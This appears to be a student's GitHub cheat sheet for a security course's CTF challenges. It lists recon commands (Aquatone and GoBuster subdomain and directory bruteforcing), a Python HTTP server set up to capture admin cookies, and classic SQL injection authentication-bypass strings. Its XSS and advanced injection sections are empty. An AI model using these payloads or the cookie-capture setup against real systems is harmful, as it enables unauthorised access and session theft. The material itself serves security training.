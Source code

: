 # 6843 CMDS + PAYLOADS
Copy pasta some quick access commands + payloads for CTF challenges + exam.

### Setup: EC2 Web Server
1. Log in to EC2 instance.
2. Launch HTTP server `python -m SimpleHTTPServer 80`
3. Hit it with requests / capture some admin cookies :)

### Common 6843 words
---
```
noone
sketch
sketchy
```

### Recon: Subdomain Bruteforcing
---
**Aquatone**
```
ssh ec2-user@tehec2instanceidduh.aws.etc.etc        // get in
cd /home/ec2-user/sec_tools/RECON/aquatone          // go to aquatone
aquatone-discover --domain [ ns.agency ]            // run subdomain bruteforcing
cat ~/aquatone/example.com/hosts.txt                // show discovered subdomains
```
**GoBuster DNS Mode**
```
See below instructions @ dir bruteforcing.
go run main.go -m dns -u [ https://ns.agency ] -w /path/to/wordlist      // run subdomain bruteforcing
```

### Recon: Directory Bruteforcing
---
**GoBuster**
```
cd /Users/brianlam/go/src/gobuster                  // go to gobuster sources
go run main.go -u https://ns.agency -w ~/1_RECON/_WORDLISTS/Directories_Common.wordlist    // run dir bruteforcing
```

### XSS
---

### SQLi
---
**Authentication Bypass
```
admin' --
' or 1=1--
' or '1'='1
' or '1'='1 --
```

### Advanced Injection
---



